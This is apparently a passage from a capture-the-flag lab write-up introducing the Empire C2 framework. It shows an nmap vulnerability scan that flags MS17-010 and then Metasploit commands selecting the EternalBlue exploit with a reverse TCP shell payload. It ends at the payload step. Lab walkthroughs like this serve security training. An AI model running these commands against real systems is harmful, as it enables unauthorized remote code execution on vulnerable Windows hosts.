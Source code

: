 Learn how to use Empire and it's GUI Starkiller, a powerful post-exploitation C2 framework.

 Empire, a C2 or Command and Control server created by BC-Security, used to deploy agents onto a device and remotely run modules. Empire is a free and open-source alternative to other command and control servers like the well known Cobalt Strike C2.
 

**Empire:Empire, a C2 or Command and Control server created by BC-Security, used to deploy agents onto a device and remotely run modules. Empire is a free and open-source alternative to other command and control servers like the well known Cobalt Strike C2.**

this new to me i don’t know about Empire So need to do some stuff like research on it

Let’s Scan Network First to Get Name Of Vuln Of Target..



```bash
nmap --script vuln <ip_addr> 
```

```bash
Host script results:
| smb-vuln-ms17-010: 
|   VULNERABLE:
|   Remote Code Execution vulnerability in Microsoft SMBv1 servers (ms17-010)
|     State: VULNERABLE
|     IDs:  CVE:CVE-2017-0143
|     Risk factor: HIGH
|       A critical remote code execution vulnerability exists in Microsoft SMBv1
|        servers (ms17-010).
|           
|     Disclosure date: 2017-03-14
|     References:
|       https://technet.microsoft.com/en-us/library/security/ms17-010.aspx
|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-0143
|_      https://blogs.technet.microsoft.com/msrc/2017/05/12/customer-guidance-for-wannacrypt-attacks/
|_smb-vuln-ms10-061: NT_STATUS_ACCESS_DENIED
|_samba-vuln-cve-2012-1182: NT_STATUS_ACCESS_DENIED
|_smb-vuln-ms10-054: false

```

Yes I got the name  : **ms17–010!**


## **#2 — Exploit the vulnerability to spawn a reverse shell!**

First of all, you need to start msfconsole.

After that as I did machine  Blue so i got the exploit :)


**use exploit/windows/smb/ms17_010_eternalblue**

**set payload /windows/x64/shell/reverse_tcp**
